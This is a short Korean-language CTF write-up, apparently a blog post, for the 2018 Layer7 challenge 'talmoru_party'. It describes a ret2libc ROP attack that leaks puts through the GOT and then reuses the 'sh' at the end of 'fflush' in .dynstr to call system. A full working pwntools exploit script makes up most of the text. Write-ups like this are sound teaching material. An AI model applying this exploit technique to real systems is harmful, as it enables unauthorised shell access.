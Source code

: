 ```yaml
---
title: "2018 Layer7 CTF talmoru_party!~"
date: 2019-11-4
tags: [Layer7]
categories: [Layer7]
---
```


2018년 Layer7 CTF에 출제된 문제이다. 

일반적인 ROP다. 근데 함수중에 fflush가 사용된 것을 보고 .dynstr에 적재된 fflush함수의 뒤 두 글자 `sh` 를 넣어주고 익스했다. 

`objdump -h BINARY` 로 섹션 헤더를 보면 .dynstr 주소 값을 gdb로 보면 함수 이름들이 있는 것을 알 수 있다.

그래서 `system("/bin/sh")` 해주지 않아도 `system("sh")` 로 쉘을 흭득할 수 있다.

```python
from pwn import *
 
e = ELF('./talmo_party')
r = ROP(e)
#libc = ELF('./layer7.so.6')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./talmo_party')
 
vuln = 0x80486e0
puts_plt = e.plt['puts']
puts_got = e.got['puts']
 
p.sendlineafter('>>','3')
 
payload = 'A'*(0x40+4)
r.puts(puts_got)
r.raw(vuln)
payload += str(r)
p.sendline(payload)
p.recvuntil('~~!\n')
 
libc_base = u32(p.recv(4)) - libc.symbols['puts']
system = libc_base + libc.symbols['system']
log.info('libcbase : ' +hex(libc_base))
 
pay2 = 'A'*(0x40+4)
pay2 += p32(system)
pay2 += 'AAAA'
pay2 += p32(0x80482da) # .dynstr -> fflush -> sh get
#pay2 += p32(libc_base+list(libc.search('/bin/sh'))[0])
p.sendline(pay2)
 
p.interactive()
```

